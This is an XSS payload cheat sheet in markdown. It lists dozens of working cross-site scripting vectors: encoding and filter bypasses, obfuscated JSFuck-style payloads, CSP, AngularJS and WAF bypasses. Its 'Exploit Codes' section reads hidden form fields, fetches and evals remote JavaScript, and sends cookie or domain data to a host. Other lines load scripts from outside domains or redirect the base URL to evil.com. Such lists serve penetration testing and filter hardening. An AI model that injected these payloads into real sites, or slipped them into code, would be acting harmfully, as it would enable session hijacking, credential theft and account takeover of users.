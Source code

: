 > Blind XSS

```https://xsshunter.com/```

---
> Encoding

```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```

```%253Cscript%253Ealert(1)%253C%252Fscript%253E```

```%uff1cscript%uff1ealert(1);%uff1c/script%uff1e```

---
> XML Based XSS

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>```

---
> Where :// is required after protocol

```javascript://%250aalert(1) ```

---
> XSS in email ID

```"\"><s>test"@gmail.com```

---
> alert, prompt, confirm is not allowed

```this[Object["keys"](this)[6]](1)```

```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```

```<svg/onload=t=/aler/.source+/t/.source;window.onerror=window[t];throw+1;//```

```[][`filter`][`constructor`](`ale`.concat(`rt\x28`.concat`0\x29`))();//```

```[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164\50\61\51')() ```

```([_,_____,_,_,__,___]=(__=[])+{___:__},[______,_,________,____,,_________,_______,__,,,__________]=[!!_____]+!_____+_____._____)[___+=_____+__________+__+______+_+________+___+______+_____+_][___](_________+_______+____+_+______+'(-~_____)')(__)```

```([,?,,,,??]=[]+{},[???,????,?????,??????,,???????,????????,?????????,,,??????????]=[!!?]+!?+?.?)[??+=?+??????????+?????????+???+????+?????+??+???+?+????][??](???????+????????+??????+????+???+'`1`')```

---
> Simple bypasses

```<body onpageshow=alert(1)>```

```<k onsubmit=alert(1)>```

```<k oninput=alert(1)>```

```<style onload=alert(1)>```

```<html ontouchstart=alert(1)>MobileXSS```

```<marquee behavior="alternate" onstart=alert(1)>XSS</marquee>```

```<script/x>alert(1)</script/x>```

```<details ontoggle=alert()>```

```<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>```

```<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>```

```<noembed><img title="</noembed><img src onerror=alert(21)>"></noembed>```

```<a/href=//0>```

```<script src=//14.rs>```

```<base href=//evil.com>```

```" onfocus=alert(1) autofocus```

---
> Obfuscated vectors

```<imG/sRc=l oNerrOr=(prompt)() x>```

```<d3"<"/onclick="1>[confirm``]"<">XSS```

```<svg/x=">"/onload=confirm()//```

```<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>```

```<svg </onload ="1> (_=prompt,_(1)) "">```

```<w="/x="y>"/ondblclick=`<`[confir\u006d``]>XXS```

```<A/iD=x hREf=jav&#x09;ascript:prom&#x09;pt(doc&#x09;ument.coo&#x09;kie); id=x>XSS```

```<sVg/onfake="x=y"oNload=;1^(co\u006efirm)``^1//```

---
> Exploit Codes

```Hidden Field data ~```

```<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>```

```Response on server ~```

```<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//127.0.0.1:8080");a.send();</script>```

```Cookie stealing with JS protocol ~```

```javascript:void(a='//127.0.0.1');void(b=document.domain);void(c=a.concat(b));void(window.location.assign(c));```

---
> Javascript XSS

```data:,alert(1)```

```\'-alert(1)//```

```'}alert(1);{'```

```'-alert()-'```

```'}alert(1)%0A{'```

```\'}alert(1);{//```

---
> CSP Bypassed

```<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1></script> <embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1)}//' allowscriptaccess=always>```

---
> Angular JS

```{{constructor.constructor('alert(1)')()}} ```

```<x ng-app>{{constructor.constructor('alert(1)')()}}```

---
> When Space and Slash doesnt work

```<svgonload=alert(1)>```

---
> Misc

```<script ~~~>confirm(1)</script ~~~>```

```window+=valueOf=alert(1)```

```[cookie].some(alert)```

```"accesskey=X onclick=alert(1)+```

```-alert(1)//\       (quoteless xss inside js context when param is reflecting 2 times in same line)```

```<svg onload=setInterval`alert\x28document.domain\x29`>```

```(alert)(1)```

```a=alert,a(1)	```

```[1].find(alert)```

```top["al"+"ert"](1)```

```top[/al/.source+/ert/.source](1)```

```al\u0065rt(1)```

```top['al\145rt'](1)```

```top[8680439..toString(30)](1)```

```<svg onload=alert&lpar;1&rpar;>```

```<svg onload=alert&#x28;1&#x29>```

```<svg onload=alert&#40;1&#41>```

```<svg onload=setInterval`alert\x28document.domain\x29`>```

```"><input type="submit" formaction="javascript&colon;this&lsqb;'a'&plus;'lert'&rsqb;`1`">```

```<body onfocus=alert(1)>```

```<object data=javascript:alert(1)>```

```<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">```

```<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>```

```<IFRAME SRC="javascript:alert('XSS');"></IFRAME>```

```%253cscript%253ealert(document.cookie)%253c/script%253e```

```<audio/onloadstart=alert(1) src>```

```%u0025%u0075%u0066%u0066%u0031%u0063%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065%u0061%u006c%u0065%u0072%u0074%u0028%u0018%u0058%u0053%u0053%u0019%u0029%u003b%u0025%u0075%u0066%u0066%u0031%u0063%u002f%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065```

```%uff1cscript%uff1ealert(1);%uff1c/script%uff1e```

```<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>                            akamai ghost wafbypass```

---
> Reference

```https://research.digitalinterruption.com/2018/12/18/a-deeper-look-into-xss-payloads/```
```https://portswigger.net/web-security/cross-site-scripting/cheat-sheet```

